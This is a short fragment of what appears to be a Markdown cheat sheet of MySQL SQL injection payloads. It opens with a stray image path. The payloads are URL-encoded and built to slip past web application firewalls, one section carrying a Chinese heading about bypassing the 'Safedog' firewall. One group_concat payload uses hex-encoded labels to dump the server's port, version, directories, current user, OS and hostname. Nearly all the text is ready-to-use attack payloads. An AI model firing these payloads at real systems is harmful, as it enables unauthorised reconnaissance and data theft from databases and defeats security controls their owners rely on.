 ```sql
%0Aselect%200x00,%200x41%20like/*!31337table_name*/,3%20from%20information_schema.tables%20limit%201
1%0bAND(SELECT%0b1%20FROM%20mysql.x)
%40%40new%20union%23sqlmapsqlmap...%0Aselect%201,2,database%23sqlmap%0A%28%29
%0Aselect%200x00%2C%200x41%20not%20like%2F*%2100000table_name*%2F%2C3%20from%20information_schema.tables%20limit%201
```

* 绕过安全狗

```sql
group_concat(0x3C68343E42797061737320736563757269747920646F672073716C5F696E6A6563743C68343E,0x3C68723E,0x4D7953514C20506F72743A20202020,@@port,0x3C68723E,0x4D7953514C2076657273696F6E3A,@@version,0x3C68723E,0x4D7953514C5F696E7374616C6C5F706174683A2020,@@basedir,0x3C68723E,0x4D7953514C5F64617461626173655F706174683A20202020,@@datadir,0x3C68723E,0x43757272656E7420646174616261736520757365723A20202020,current_user,0x3C68723E,0x73797374656D2076657273696F6E3A20202020,@@version_compile_os,0x3C68723E,0x686F73746E616D653A20202020,@@hostname,0x3C68723E,0x43757272656E742064617461626173653A20202020,database/*!()*/,0x3C68723E,0x5573657220496E666F3A20202020,user/*!()*/)
```